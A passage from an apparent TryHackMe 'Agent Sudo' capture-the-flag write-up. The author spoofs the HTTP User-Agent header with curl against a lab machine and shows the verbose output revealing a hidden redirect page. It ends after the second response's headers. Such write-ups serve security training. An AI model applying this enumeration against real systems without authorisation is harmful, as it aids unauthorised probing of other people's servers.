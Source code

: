 ![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Agent_sudo/images/91-2.png)

From this image i understand i need to change the user-agent of the request with my own, but i don't know which is my agent name. Fortunately, the hint specifies my agent's name first letter, which is C. I used curl to fetch the same page, but with the specified user-agent.

```text

curl -iLv http://10.10.190.224 -A C

*   Trying 10.10.190.224:80...
* TCP_NODELAY set
* Connected to 10.10.190.224 (10.10.190.224) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.190.224
> User-Agent: C
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
HTTP/1.1 302 Found
< Date: Fri, 11 Sep 2020 09:12:51 GMT
Date: Fri, 11 Sep 2020 09:12:51 GMT
< Server: Apache/2.4.29 (Ubuntu)
Server: Apache/2.4.29 (Ubuntu)
< Location: agent_C_attention.php
Location: agent_C_attention.php
< Content-Length: 218
Content-Length: 218
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

< 
* Ignoring the response-body
* Connection #0 to host 10.10.190.224 left intact
* Issue another request to this URL: 'http://10.10.190.224/agent_C_attention.php'
* Found bundle for host 10.10.190.224: 0x556eeb40a3b0 [serially]
* Can not multiplex, even if we wanted to!
* Re-using existing connection! (#0) with host 10.10.190.224
* Connected to 10.10.190.224 (10.10.190.224) port 80 (#0)
> GET /agent_C_attention.php HTTP/1.1
> Host: 10.10.190.224
> User-Agent: C
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Fri, 11 Sep 2020 09:12:51 GMT
Date: Fri, 11 Sep 2020 09:12:51 GMT
< Server: Apache/2.4.29 (Ubuntu)
Server: Apache/2.4.29 (Ubuntu)
< Vary: Accept-Encoding
Vary: Accept-Encoding
< Content-Length: 177
Content-Length: 177
```